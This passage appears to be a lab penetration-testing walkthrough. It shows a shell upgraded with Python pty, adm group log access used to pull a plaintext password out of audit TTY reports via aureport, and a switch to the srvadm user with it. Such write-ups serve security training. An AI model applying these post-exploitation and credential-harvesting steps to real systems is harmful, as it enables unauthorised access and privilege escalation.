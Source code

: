 ### 🐍 Alternative Python TTY
```bash
# Standard Python upgrade method
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Benefits of socat upgrade:
- Full terminal functionality
- Command completion support
- Text editor capability
- su/sudo/ssh compatibility
```

## 🔍 Privilege Escalation Discovery

### 📋 Audit Log Analysis
```bash
# Group membership analysis
id
# Output: uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)

# adm group privileges:
- Read access to ALL logs in /var/log
- Audit log access capabilities
- System monitoring permissions

# Audit log credential discovery
aureport --tty | less
```

### 🔐 Credential Extraction from Logs
```bash
# TTY Report analysis:
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"

# Discovered credentials:
srvadm:ILFreightnixadm!
```

### 🔺 User Escalation
```bash
# Switch to srvadm user
su srvadm
Password: ILFreightnixadm!

# Verify privilege escalation
whoami
# Output: srvadm

# Interactive bash shell
/bin/bash -i
srvadm@dmz01:/var/www/html/monitoring$
```
